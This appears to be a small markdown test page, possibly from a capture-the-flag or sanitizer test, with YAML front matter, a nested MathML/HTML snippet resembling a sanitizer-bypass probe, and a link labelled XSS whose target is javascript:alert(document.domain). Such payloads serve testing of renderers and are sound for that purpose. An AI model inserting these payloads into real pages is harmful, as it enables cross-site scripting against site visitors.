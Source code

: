 ```yaml
---
title: problem text
permalink: /problem
description: ""
---
```

<math><mtext><h1><a></a></h1><h6><a></a></h6></mtext></math>

[XSS](javascript:alert(document.domain))